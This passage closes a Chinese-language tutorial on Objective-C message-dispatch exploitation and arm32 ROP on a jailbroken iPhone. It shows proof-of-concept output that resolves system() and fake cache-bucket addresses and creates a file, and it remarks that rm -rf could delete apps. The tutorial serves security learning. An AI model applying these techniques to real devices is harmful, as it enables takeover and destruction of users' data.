 &emsp;&emsp;编译hello，scp到iphone运行，结果如下
```
iPhone4s:/tmp root# ./hello
2016-04-08 15:55:47.321 hello[30375:507] Hello, Ice and Fire!
2016-04-08 15:55:47.327 hello[30375:507] Hello, Ice and Fire!
2016-04-08 15:55:47.329 hello[30375:507] cached_sel = 0x32ad9275
2016-04-08 15:55:47.331 hello[30375:507] CoreFoundationbase address = 0x2fbbd000
2016-04-08 15:55:47.333 hello[30375:507] fake_cache_bucket.cached_function = 0x2fc5b2a5
2016-04-08 15:55:47.335 hello[30375:507] system_address = 0x3aa8b505
2016-04-08 15:55:47.337 hello[30375:507] fake_receiver address = 0x211a4
iPhone4s:/tmp root# ls
IceAndFire                                           hello*
```
&emsp;&emsp;发现/tmp目录下已经成功的创建了IceAndFire这个文件了,还可以通过执行rm -rf命令，删除其它文件，比如应用。

### 0x06 总结
&emsp;&emsp;iOS上Objective-C 的利用以及iOS 上arm32 ROP，这些都是越狱需要掌握的最基本的知识。要注意的事，能做到执行system指令是因为是在越狱环境下以root身份运行了们的程序，在非越狱模式下app是没有权限执行这些system指令的，想要做到这一点必须利用沙箱逃逸的漏洞才行。
### 0x07 参考资料
[iOS冰与火之歌 – Objective-C Pwn and iOS arm64 ROP](http://drops.wooyun.org/papers/12355)

[Objective-C消息机制的原理](http://dangpu.sinaapp.com/?p=119)

### 0x08 代码下载
[github](https://github.com/AloneMonkey/ios-security)